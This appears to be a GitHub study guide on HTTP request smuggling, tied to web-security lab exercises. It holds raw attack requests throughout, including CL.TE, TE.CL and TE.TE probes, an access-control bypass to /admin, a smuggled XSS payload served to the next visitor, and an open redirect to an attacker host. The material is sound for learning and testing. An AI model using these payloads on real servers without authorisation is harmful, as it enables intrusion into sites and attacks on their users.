



## Basics

Users send requests to a front-end server (sometimes called a load balancer or reverse proxy) and this server forwards requests to one or more back-end servers.

HTTP requests are sent one after another, and the receiving server has to determine where one request ends and the next one begins: Here, the attacker causes a part of their front-end request to be interpreted by the back-end server as the start of the next request. It is effectively prepended to the next request, and so can interfere with the way the application processes that request. This is a request smuggling attack, and it can have devastating results.



#### Conditions for Successul attack

1. The "attack" request and the "normal" request should be sent to the server using different network connections. Sending both requests through the same connection won't prove that the vulnerability exists.

2. You should send the "normal" request immediately after the "attack" request. If the application is busy, you might need to perform multiple attempts to confirm the vulnerability.

3. If your "attack" and "normal" requests are forwarded to different back-end systems, then the attack will fail. This is an additional reason why you might need to try several times before a vulnerability can be confirmed.


#### Content-Length

The Content-Length header is straightforward: it specifies the length of the message body in bytes. For example:

```
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

#### Transfer-encoding

The Transfer-Encoding header can be used to specify that the message body uses chunked encoding. This means that the message body contains one or more chunks of data. Each chunk consists of the chunk size in bytes (expressed in hexadecimal), followed by a newline, followed by the chunk contents. The message is terminated with a chunk of size zero. For example:

```
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

b
q=smuggling
0
```

## Classic Smuggling Attack

Classic request smuggling attacks involve placing both the` Content-Length` header and the `Transfer-Encoding` header into a single HTTP/1 request and manipulating these so that the front-end and back-end servers process the request differently.

- `CL.TE`: the front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header.

- `TE.CL`: the front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header.

- `TE.TE`: the front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way.

#### CL.TE

##### Probing CL.TE by Time Delay

If an application is vulnerable to the CL.TE variant of request smuggling, then sending a request like the following will often cause a time delay:

```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```
Since the front-end server uses the Content-Length header, it will forward only part of this request, omitting the X. The back-end server uses the Transfer-Encoding header, processes the first chunk, and then waits for the next chunk to arrive. This will cause an observable time delay.

##### Confirming CL.TE

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```
Using Burp Repeater, issue the following request twice:
The second response should say: `Unrecognized method GPOST.`

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```
If the attack is successful, then the last two lines of this request are treated by the back-end server as belonging to the next request that is received.
`The second request should receive an HTTP 404 response.`

#### TE.CL

##### Probing TE.CL by Time Delay

```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```
Since the front-end server uses the Transfer-Encoding header, it will forward only part of this request, omitting the X. The back-end server uses the Content-Length header, expects more content in the message body, and waits for the remaining content to arrive. This will cause an observable time delay.

##### Confirm TE.CL
```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```
issue the following request twice:
The second response should say: `Unrecognized method GPOST.`
Note - ensure that the "Update Content-Length" option is unchecked

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```
If the attack is successful, then everything from GET /404 onwards is treated by the back-end server as belonging to the next request that is received. 
`The second request should receive an HTTP 404 response.`


#### TE.TE

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: cow

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```
The second response should say: `Unrecognized method GPOST.`
Note - ensure that the "Update Content-Length" option is unchecked


#### CL.0

In some instances, servers can be persuaded to ignore the Content-Length header, meaning they assume that each request finishes at the end of the headers. This is effectively the same as treating the Content-Length as 0.

If the back-end server exhibits this behavior, but the front-end still uses the Content-Length header to determine where the request ends, you can potentially exploit this discrepancy for HTTP request smuggling.

##### Probing

To probe for CL.0 vulnerabilities, first send a request containing another partial request in its body, then send a normal follow-up request. You can then check to see whether the response to the follow-up request was affected by the smuggled prefix.




#### H2.0

Websites that downgrade HTTP/2 requests to HTTP/1 may be vulnerable to an equivalent "H2.0" issue if the back-end server ignores the Content-Length header of the downgraded request.


## Client Side Desync / Browser Powered Smuggling

A client-side desync (CSD) is an attack that makes the victim's web browser desynchronize its own connection to the vulnerable website.

How it works?

1. The victim visits a web page on an arbitrary domain containing malicious JavaScript.
2. The JavaScript causes the victim's browser to issue a request to the vulnerable website. This contains an attacker-controlled request prefix in its body, much like a normal request smuggling attack.
3. The malicious prefix is left on the server's TCP/TLS socket after it responds to the initial request, desyncing the connection with the browser.
4. The JavaScript then triggers a follow-up request down the poisoned connection. This is appended to the malicious prefix, eliciting a harmful response from the server.

Conditions for it to work?

It's important to note that the target web server must not support HTTP/2, Client-side desyncs rely on HTTP/1.1 connection reuse, and browsers generally favor HTTP/2 where available.


#### Exploiting Smuggling

##### Bypassing Frontend security controls CL.TE

For example, suppose an application uses the front-end server to implement access control restrictions, and Suppose the current user is permitted to access /home but not /admin. They can bypass this restriction using the following request smuggling attack:
```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```
The front-end server sees two requests here, both for /home, and so the requests are forwarded to the back-end server. However, the back-end server sees one request for /home and one request for /admin. It assumes (as always) that the requests have passed through the front-end controls, and so grants access to the restricted URL.

##### Bypassing Frontend security controls TE.CL

For example, suppose an application uses the front-end server to implement access control restrictions, and Suppose the current user is permitted to access /home but not /admin. They can bypass this restriction using the following request smuggling attack:
```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

71
POST /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```
The front-end server sees two requests here, both for /home, and so the requests are forwarded to the back-end server. However, the back-end server sees one request for /home and one request for /admin. It assumes (as always) that the requests have passed through the front-end controls, and so grants access to the restricted URL.


##### Revealing Front-End Request rewriting

In many applications, the front-end server performs some rewriting of requests before they are forwarded to the back-end server, typically by adding some additional request headers.

For example, the front-end server might:
- add an X-Forwarded-For header containing the user's IP address;
- determine the user's ID based on their session token and add a header identifying the user
- add some sensitive information that is of interest for other attacks.

There is often a simple way to reveal exactly how the front-end server is rewriting requests. To do this, you need to perform the following steps:

1. Find a POST request that reflects the value of a request parameter into the application's response.
2. Shuffle the parameters so that the reflected parameter appears last in the message body.
3. Smuggle this request to the back-end server, followed directly by a normal request whose rewritten form you want to reveal.

Suppose an application has a login function that reflects the value of the email parameter:
```
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

email=wiener@normal-user.net
```
This results in a response containing the following:
```
<input id="email" value="wiener@normal-user.net" type="text">
```
you can use the following request smuggling attack to reveal the rewriting that is performed by the front-end server:
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=POST /login HTTP/1.1
Host: vulnerable-website.com
...
```
The requests will be rewritten by the front-end server to include the additional headers, and then the back-end server will process the smuggled request and treat the rewritten second request as being the value of the email parameter. It will then reflect this value back in the response to the second request:
```
<input id="email" value="POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
...
```

##### Exploit reflected XSS without intervention

If an application is vulnerable to HTTP request smuggling and also contains reflected XSS, you can use a request smuggling attack to hit other users of the application. This approach is superior to normal exploitation of reflected XSS in two ways:

1. It requires no interaction with victim users.
2. It can be used to exploit XSS behavior in parts of the request that cannot be trivially controlled in a normal reflected XSS attack, such as HTTP request headers.

For example, suppose an application has a reflected XSS vulnerability in the User-Agent header.
```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```
Note - Note that the target user only browses the website intermittently so you may need to repeat this attack a few times before it's successful.
The next user's request will be appended to the smuggled request, and they will receive the reflected XSS payload in the response.

##### Turn a Normal redirect to Open Redirect

Normal Redirect
```
GET /home HTTP/1.1
Host: normal-website.com

HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```

Smuggled Normal Redirect to Open redirect to attacker website

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```

```
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

## Browser-Powered Desync Attack

A browser-powered desync attack is when a hacker uses your browser to send specially crafted requests that confuse the servers — allowing them to hijack sessions, steal data, or perform other attacks without needing fancy hacking tools.